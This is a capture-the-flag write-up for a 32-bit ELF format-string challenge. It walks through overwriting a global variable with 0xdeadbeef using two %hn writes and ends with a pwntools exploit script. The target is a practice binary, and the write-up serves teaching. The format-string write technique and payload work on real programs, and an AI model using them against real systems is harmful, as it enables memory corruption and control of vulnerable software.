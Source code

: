 ![description](fms2.PNG)

# Gathering Information
the challenge provides a binary,it's source code and a netcat service.
- the binary is ELF 32bit mode.
- like the Format String 1 challenge, this challenge prints the flag only if the target_variable value = 0xdeadbeef
# Exploitation
- we have to chain a payload that overwrites the target_variable
- find the address of target_variable
- find the offset to the the first 4 bytes to overwrite
- write 0xdeadbeef in target_value
## Finding the address of target_variable
target_variable is a global variable, and since it's not initialized , it's in the .bss section.
the address is : 0x0804c034 (same address as the previous challenge)
## Finding Offset
the address is the 4th address in the stack, to reference directly the address, we can use %4$x ( same offset from the previous challenge )

## Writing 0xdeadbeef
the format specifier %n writes how many bytes written so far, so if we want to overwrite the target with 100, we write target_address + "A"*(100-4)

the 4 bytes in ("A"*(100-4)) represents the size of the target_variable since it's counted in the payload.

the problem is that 0xdeadbeef is a very big number, so we can use %hn that write only 2 bytes in the address.

the idea is to write the (address of target) + (address of target + 2 ) + "n bytes" +  %4$hn + "m bytes" +5$hn
%4$hn will write n bytes in the lower two bytes of the target
%5$hn will write m bytes in the higher two bytes of the target

Now, how to calculate n and m ?
we want to write 0xbeef in the lower bytes, so n = 0xbeef - (4 + 4) = 48871
we want to write 0xdead in the higher bytes, so m = 0xdead - 0xbeef = 8126

Again we have another problem, the buffer size is limited to 60 bytes, so we can't write 48871 bytes as an input !!!!
that's where we use the %x format specifier, %px can be used to write p byte (padding)

so our final payload = @target + (@target+2) + %48871x" + "%4$hn" + "%8126x" + "%5$hn"
## Payload
```python
from pwn import *
context.arch = 'i386'
target_variable = 0x0804c034
p = process("./task9")
payload = b""
payload += p32(target_variable)
payload += p32(target_variable+2)
payload += b"%48871x"
payload += b"%4$hn"
payload += b"%8126x"
payload += b"%5$hn" 
pause()
p.sendline(payload)
p.interactive()
